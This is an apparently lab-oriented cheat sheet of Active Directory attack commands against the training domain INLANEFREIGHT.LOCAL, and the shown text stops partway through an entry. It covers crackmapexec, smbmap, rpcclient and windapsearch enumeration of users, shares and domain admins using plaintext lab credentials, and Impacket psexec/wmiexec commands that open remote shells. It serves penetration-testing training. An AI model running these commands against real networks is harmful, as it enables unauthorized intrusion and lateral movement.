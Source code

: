 `sudo crackmapexec smb 172.16.5.125 -u forend -p Klmcargo2 --loggedon-users`

    Authenticates with a Windows target over `smb` using valid credentials and attempts to check for a list of logged on users (`--loggedon-users`) on the target Windows host. Performed from a Linux-based host.

`sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares`

    Authenticates with a Windows target over `smb` using valid credentials and attempts to discover any smb shares (`--shares`). Performed from a Linux-based host.

`sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share Dev-share`

    Authenticates with a Windows target over `smb` using valid credentials and utilizes the CrackMapExec module (`-M`) `spider_plus` to go through each readable share (`Dev-share`) and list all readable files. The results are outputted in `JSON`. Performed from a Linux-based host.

`smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5`

    Enumerates the target Windows domain using valid credentials and lists shares & permissions available on each within the context of the valid credentials used and the target Windows host (`-H`). Performed from a Linux-based host.

`smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R SYSVOL --dir-only`

    Enumerates the target Windows domain using valid credentials and performs a recursive listing (`-R`) of the specified share (`SYSVOL`) and only outputs a list of directories (`--dir-only`) in the share. Performed from a Linux-based host.

`rpcclient $> queryuser 0x457`

    Enumerates a target user account in a Windows domain using its relative identifier (`0x457`). Performed from a Linux-based host.

`rpcclient $> enumdomusers`

    Discovers user accounts in a target Windows domain and their associated relative identifiers (`rid`). Performed from a Linux-based host.

`psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125`

    Impacket tool used to connect to the `CLI` of a Windows target via the `ADMIN$` administrative share with valid credentials. Performed from a Linux-based host.

`wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5`

    Impacket tool used to connect to the `CLI` of a Windows target via `WMI` with valid credentials. Performed from a Linux-based host.

`windapsearch.py -h`

    Used to display the options and functionality of windapsearch.py. Performed from a Linux-based host.

`python3 windapsearch.py --dc-ip 172.16.5.5 -u inlanefreight\wley -p Klmcargo2 --da`

    Used to enumerate the domain admins group (`--da`) using a valid set of credentials on a target Windows domain. Performed from a Linux-based host.

`python3 windapsearch.py --dc-ip 172.16.5.5 -u inlanefreight\wley -p Klmcargo2 -PU`
